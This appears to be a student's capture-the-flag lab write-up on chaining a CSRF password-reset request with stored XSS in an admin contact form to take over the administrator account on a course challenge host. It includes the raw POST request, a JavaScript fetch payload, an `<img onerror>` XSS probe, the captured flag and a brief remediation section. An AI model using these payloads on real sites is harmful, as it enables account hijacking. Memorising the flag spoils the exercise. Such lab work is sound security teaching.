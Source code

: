 # Challenge 1 (Basic CSRF)

### 1.

> Quelle fonctionnalité du site, potentiellement vulnérable à une faille CSRF, pourriez-vous exploiter pour voler le compte administrateur ?

The password reset feature.

### 2.

> Proposez une requête qui vous permettra de prendre le contrôle du compte admin, si elle était exécutée par l’administrateur.

```
POST /profile/loic.herman_admin HTTP/1.1
Host: basic.csrf.slh.cyfr.ch
Content-Type: application/x-www-form-urlencoded

password=strongpassword
```

### 3.

> Écrivez une payload javascript qui exécute la requête.

```html
<script>
fetch("/profile/loic.herman_admin", {
    "credentials": "include",
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded",
    },
    "body": "password=strongpassword",
    "method": "POST",
    "mode": "cors"
});
</script>
```

### 4.

> Quelle fonctionnalité du site, potentiellement vulnérable à une faille Stored XSS, pourriez-vous exploiter pour faire exécuter votre payload par l’administrateur ?

The admin contact feature could potentially be vulnerable to stored XSS if the sent HTML is displayed directly to the administrator.

### 5.

> Quel est le flag ? Comment avez-vous pu l’obtenir ?

`7fHF68A8nIUBLD8m`

First, we proved that the contact feature was vulnerable to XSS attacks by sending the payload `<img src onerror="alert(1)" />`.
This indeed proved to us that the content was being executed since the response was delayed (and it might have forced a reboot of the service, oops).

So naturally the next step was to send our payload, which executed properly and after logging out and logging in using our administrator account,
we were able to access the `/admin` page, containing our flag!

### 6.

> Comment corrigeriez-vous la vulnérabilité ?

Obviously, user-generated content should never be simply printed on the page directly. It should have been properly sanitized beforehand,
preventing the admin from mistakenly executing requests. Though a proper CSRF protection should also be put in place, using anti-CSRF tokens.

